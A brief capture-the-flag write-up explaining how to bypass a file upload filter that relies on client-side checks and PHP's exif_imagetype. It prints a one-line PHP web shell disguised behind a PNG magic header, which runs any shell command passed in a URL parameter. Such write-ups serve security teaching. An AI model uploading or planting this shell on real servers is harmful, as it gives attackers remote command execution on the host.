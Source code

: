 There is just clientside check for what you are putting in and a server side check of exif_imagetype which can easily be bypassed so just framing a png as such you would get the required flag


```
�PNG

<?php echo system($_GET['cmd']); ?>

```